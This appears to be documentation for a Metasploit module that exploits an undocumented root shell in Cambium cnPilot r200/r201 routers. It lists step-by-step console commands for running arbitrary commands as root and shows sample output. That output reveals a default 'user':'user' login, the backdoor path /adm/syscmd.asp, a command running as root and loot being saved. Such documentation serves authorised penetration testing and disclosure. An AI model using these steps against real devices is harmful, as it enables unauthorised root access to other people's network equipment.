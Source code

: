 Cambium cnPilot r200/r201 device software versions 4.2.3-R4 and newer, contain an undocumented, backdoor 'root' shell. This shell is accessible via a specific url, to any authenticated user. The module uses this shell to execute arbitrary system commands as 'root'.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/cnpilot_r_cmd_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set CMD [command]```
5. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/cnpilot_r_cmd_exec
msf auxiliary(cnpilot_r_cmd_exec) > set RHOSTS 1.3.3.7
msf auxiliary(cnpilot_r_cmd_exec) > set RPORT 80
msf auxiliary(cnpilot_r_cmd_exec) > set CMD uname -a
msf auxiliary(cnpilot_r_cmd_exec) > run

[+] 1.3.3.7:80 - Cambium cnPilot confirmed...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "user":"user"
[*] 1.3.3.7:80 - Checking backdoor 'root' shell...
[+] 1.3.3.7:80 - You can access the 'root' shell at: http://1.3.3.7:80/adm/syscmd.asp
[+] 1.3.3.7:80 - Executing command - uname -a
[+]
Linux cnPilot-R201 2.6.36 #1 Thu Feb 9 03:02:39 CST 2017 mips unknown


[+] File saved in: /root/.msf4/loot/20000000000003_default_1.3.3.7_cmdexeclog_12345.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


  ```
